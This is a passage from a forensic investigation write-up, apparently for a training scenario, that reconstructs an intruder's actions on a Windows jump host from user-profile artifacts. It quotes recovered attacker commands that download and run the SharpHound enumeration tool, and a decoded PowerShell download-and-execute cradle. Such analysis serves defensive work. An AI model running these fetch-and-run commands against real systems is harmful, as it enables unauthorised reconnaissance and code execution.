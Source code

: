 From here on, we know the beachhead and the time of accessing it. While we could continue relaying on the data inside the ELK stack, it may now be better to consider the triage image of `CC-JMP-01` for the ongoing investigation.

Again we start pivoting around the known, here the user account `ivanderplas1`. We access the triage image and browse the `C:\Users\ivanderplas1\` directory. Hereby we found some interesting artifacts.

- In the recently browsed locations `AppData\Roaming\Microsoft\Windows\Recent` is a reference to a network share named `SuperSecretSecureShare` directing to the `CC-DC-01` domain controller. I.e., `\\CC-DC-01\SuperSecretSecureShare\`.
  
- There is a `PowerShell` console history file holding the following contents:
	```Powershell
	cd \appdata
	cd \programdata
	wget https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.5_x86/SharpHound.exe -o s.exe
	.\s.exe
	dir
	```

- There is Microsoft Edge web history available at `AppData\Local\Microsoft\Edge\User Data\Default`. It seemed like Edge was used only one time to google *"What Is My IP"*, and to download *"ConnectWise ScreenConnect"*.
Notice, from threat intelligence, we know that the "ConnectWise ScreenConnect" is vulnerable to `CVE-2024-1709` being publicly announced around February/March in 2024 and used by cyber crime groups to distribute malware. Thus, the download of this application may become of interest later on!

- `C:\ProgramData` holds a `SharpHound.exe`, an unknown `waifu.exe` (`SHA-256: ECD4CAB5BFEB9910CE77E1830338A3D5CE305DA0CB8E9C94967BE4368B8AD136`) and `update.txt`, however no `s.exe` as indicated by the previously found `PowerShell` history. The `update.txt` seems to be the result of a service enumeration conducted by the threat actor.  Finally, there is a sub-directory named `20240306` holding a PowerShell transcription file. From the file name, we can conclude the creation date `2024-06-03`. The command executed in the transcript is encoded in `base64`. After decoding, we obtain `IEX (New-Object Net.Webclient).DownloadString('http://127.0.0.1:47914/')`. However the command was not successfully executed and timed out. The `waifu.exe` is the installer of the *"ConnectWise ScreenConnect"* remote desktop tool.

**Notice**, If checking `s.exe` in the Windows logs, we will observe that *Microsoft Windows Defender* detected a possible threat in `s.exe` at `Detection Time: 2024-03-03T17:09:26.386Z` and thus deleted the file. The threat detected is indeed the enumeration tool `SharpHound.exe`. This fact makes the presence of `SharpHound.exe` even more interesting and we should remember this artefact for later examination!


# Privilege Escalation

Our previous examinations indicate that the attacker was able to compromise other machines (*e.g., the share created on the domain controller*) and laterally moved inside the campus network. To this end, the threat actor was somehow required to obtain administrative privileges on `CC-JMP-01` in order to dump credentials from the machine. From the found `update.txt` we already know that the adversary took special focus on service enumeration. According to the timestamps the enumeration took place around `03-03-2024 5:46 PM` device time. To get a better picture about what the attacker executed around that time, we will inspect the `Sysmon` logs.
